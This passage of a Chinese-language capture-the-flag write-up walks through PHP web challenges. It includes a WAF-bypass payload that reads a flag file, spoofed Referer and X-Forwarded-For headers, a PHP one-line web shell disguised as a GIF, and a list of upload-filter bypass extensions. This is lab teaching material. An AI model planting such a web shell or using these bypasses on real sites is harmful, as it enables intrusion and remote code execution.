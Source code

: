 

**列出flagg**：

```
?%20num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```

之后得到flag



**PHP的字符串解析特性是什么？**

答： PHP需要将所有参数转换为有效的变量名，因此在**解析查询字符串时**，它会做两件事：

1.删除空白符 

2.将某些字符转换为下划线（包括空格）

[当waf不让你过的时候，php却可以让你过]



还有一种方法：

**HTTP走私攻击（HTTP数据接收不同步攻击）**

## 0xD.[极客大挑战 2019]Http

找到Secret.php文件

说没有来自https://www.Sycsecret.com网站，加

```
Referer:https://www.Sycsecret.com
```

又说不是某个浏览器i，该user-agent

说只能来自本地：X-Forwarded-For:127.0.0.1

之后得到flag

```
Referer：来自哪个网站
User-agent：浏览器
x-forwarded-for：伪造IP
```

## 0xE.[极客大挑战 2019]Upload

文件上传，

常用一句话：

```
GIF89a? <script language="php">eval($_REQUEST[shell])</script>
```

绕过后缀：

```
php,php3,php4,php5,phtml,pht
```
